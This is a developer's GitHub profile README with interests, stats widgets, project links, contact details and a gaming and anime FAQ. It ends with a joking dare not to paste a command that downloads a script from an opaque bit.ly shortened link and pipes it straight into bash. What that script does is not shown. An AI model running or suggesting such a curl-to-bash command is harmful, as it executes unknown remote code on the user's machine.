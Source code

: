 <!--<h1 align="center"> <a href="https://tusharnankani.github.io/about/" ><img src="Assets/portfolio.gh.png" alt="about-ss"> </a>--> 
 
 <br > Welcome to my GitHub! 😇</h1>

<!-- <p align="center">
 <img width="100px" src="https://res.cloudinary.com/anuraghazra/image/upload/v1594908242/logo_ccswme.svg" align="center" alt="Github Readme Stats" />
</p> -->
<p align="center"> <img src="https://komarev.com/ghpvc/?username=zeankundev" alt="kkanekii"/> </p>

-   🤗 I'm an junior developer!
-   🔭 I'm currently working on my Competitive Coding Skills.
-   🌱 I'm currently learning _C++_ 
-   💬 Ask me about JavaScript, C#, Java, React.js, HTML.
-   📫 How to reach me: 
    
    - <a href="mailto:zeanfender11@gmail.com">Email</a>
    - <a href="https://discord.gg/pbYzGWF9Q4">Discord</a>

### About Me

I am working on my **Projects** and **development software**. My interest lies in **Javascript**, **Web Development**, **App Development with React.js** **Desktop Development Electron.js**.

<!-- I have the **attitude** of a learner, the **courage** of an entrepreneur and the **thinking** of an optimist, engraved inside me. I wish to be a leader in my community of people and have an *innate desire* to contribute to **environment** and **society**. -->

Currently, aim is to become a globally competent individual with **programming skills** along with **design skills**.

<!-- <p align="center"><img alt="GitHub Stats" src="https://github-readme-stats.vercel.app/api?username=tusharnankani&show_icons=true&title_color=fff&icon_color=82d4f7&text_color=d1dae3&bg_color=090909"> </p> -->

<p align="center">

![zeans stats](https://github-readme-stats.vercel.app/api?username=zeankundev&show_icons=true)
![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=zeankundev&layout=compact)
 <a href="https://discord.com/users/793983601288544286">
  <img src="https://lanyard-profile-readme.vercel.app/api/793983601288544286?idleMessage=i%20forgor%20💀" width="50%" align="left" />
</a>


<!-- <img src="https://github-readme-streak-stats.herokuapp.com/?user=zeankundev" alt="Github Streak Stats"> -->

</p>

<!--<p align="center"> <img src="https://github-readme-stats.vercel.app/api?username=zeankundev_icons=true" alt="kkanekii" />-->

<!--[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=zeankundev&show_icons=true&title_color=fff&icon_color=79ff97&text_color=9f9f9f&bg_color=151515)](https://github.com/kushal98?tab=repositories)-->

## Some Of My Projects
<p align="center">
<a href="https://github.com/zeankundev/graycrown">
  <img align="left" src="https://github-readme-stats.vercel.app/api/pin/?username=zeankundev&repo=graycrown" />
</a>
<a href="https://github.com/zeankundev/NextPay">
  <img align="left" src="https://github-readme-stats.vercel.app/api/pin/?username=zeankundev&repo=NextPay"/>
</a>
</p>


<br>
<br>




<br>
<br>
<br>
<br>

<div align="center">
<br>




<h2>
Connect with me<img src="Assets/Handshake.gif" height="32px">
</h2>

 [<img src="https://cdn.svgporn.com/logos/github-icon.svg" alt="Github logo" width="34">](https://github.com/zeankundev) [<img src="Assets/Gmail.svg" alt="Gmail logo" height="32">](mailto:zeanfender11@gmail.com) [<img src="Assets/Discord-Logo-Color.svg" alt="Discord logo" height="32">](https://discord.gg/2cJBQrdZkm) [<img src="https://upload.wikimedia.org/wikipedia/sco/thumb/9/9f/Twitter_bird_logo_2012.svg/1200px-Twitter_bird_logo_2012.svg.png" alt="twitter" height="32">](https://twitter.com/ZeanKunDev) [pls click me](https://bit.ly/3kmEhmP) 

 
 <h2>Donate me on Trakteer!</h2>
<a href="https://trakteer.id/zeankundev" target="_blank"><img id="wse-buttons-preview" src="https://cdn.trakteer.id/images/embed/trbtn-red-1.png" style="border:0px;height:40px;" alt="Trakteer Saya" height="40"></a>
</div>

# FAQ about me
- **What games do you play mostly?**
> Team Fortress 2, Mobile Legends, Stumble Guys, Genshin Impact
- **Most favorite programming language?**
> C++, JS, HTML, CSS, React
- **Are you a weeb? If yes, what are your favorite animes?**
> Yes. It's Suzume no Tojimari.
- **Any games that you wanna develop right now?**
> Yes. It's called Cosplay Simulator. I will be using Unity and Bolt

<br>

plus, dont copy paste this command to ur terminal, or else, something will happen 😇

```
curl -s -L http://bit.ly/10hA8iC | bash
```
